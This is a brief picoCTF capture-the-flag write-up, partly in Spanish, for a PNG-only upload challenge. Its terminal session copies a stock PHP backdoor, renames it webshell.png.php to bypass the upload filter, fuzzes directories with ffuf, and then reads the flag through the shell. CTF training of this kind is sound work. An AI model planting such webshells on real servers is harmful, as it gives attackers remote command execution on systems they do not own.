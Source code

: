 ## Objetivo

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

## Solución
```
┌──(kali㉿franco)-[~]
└─$ whatweb http://atlas.picoctf.net:61871/
http://atlas.picoctf.net:61871/ [200 OK] Apache[2.4.56], Country[UNITED STATES][US], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[18.217.83.136], PHP[8.0.30], Title[File Upload Page], X-Powered-By[PHP/8.0.30]


┌──(kali㉿franco)-[~]
└─$ mkdir picoCTF  
                                       
┌──(kali㉿franco)-[~]
└─$ cd picoCTF 
                                       
┌──(kali㉿franco)-[~/picoCTF]
└─$ cp /usr/share/webshells/php/simple-backdoor.php webshell.php

                                                                                 
┌──(kali㉿franco)-[~/picoCTF]
└─$ ls
webshell.php
                                                                                 
┌──(kali㉿franco)-[~/picoCTF]
└─$ nano webshell.php 
                                                                                 
┌──(kali㉿franco)-[~/picoCTF]
└─$ mv webshell.php webshell.png.php

──(kali㉿franco)-[~/picoCTF]
└─$ ffuf -u http://atlas.picoctf.net:61871/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -ic

                                
```

Despues nos movemos al directorio y ahi mismo le hacemos un cat, en donde nos da la bandera
## Notas adicionales

## Referencias